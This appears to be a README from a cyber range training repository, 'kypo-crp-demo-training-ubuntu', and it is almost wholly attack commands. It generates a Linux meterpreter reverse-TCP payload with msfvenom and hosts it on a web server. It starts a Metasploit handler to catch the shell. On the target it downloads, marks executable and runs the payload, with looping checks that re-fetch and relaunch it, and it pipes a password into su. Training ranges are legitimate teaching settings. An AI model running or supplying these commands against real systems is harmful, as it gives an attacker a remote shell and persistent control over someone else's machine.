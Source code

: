 # kypo-crp-demo-training-ubuntu

USE MSFVENOM

---

server
------

wget http://192.168.30.5/shell-x64.elf

chmod +x shell-x64.elf

---

client
------

(Stageless payload)

sudo msfvenom -p linux/x64/meterpreter_reverse_tcp LHOST= LPORT=6996 -f elf -o /var/www/html/shell-x64.elf

sudo service apache2 start

msfconsole

use exploit/multi/handler

set PAYLOAD linux/x64/meterpreter_reverse_tcp

set LPORT 6996

set LHOST 

exploit

---

old

---

if ! pidof -x /home/server/shell-x64.elf; then sudo /home/server/shell-x64.elf; fi

if [ ! -s /home/server/shell-x64.elf ]; then wget -O /home/server/shell-x64.elf http:///shell-x64.elf; fi

if [ -s /home/server/shell-x64.elf ]; then chmod +x /home/server/shell-x64.elf; fi

echo password | su -c whoami server

wget -O /home/server/shell-x64.elf http:///shell-x64.elf && chmod +x /home/server/shell-x64.elf && /home/server/shell-x64.elf
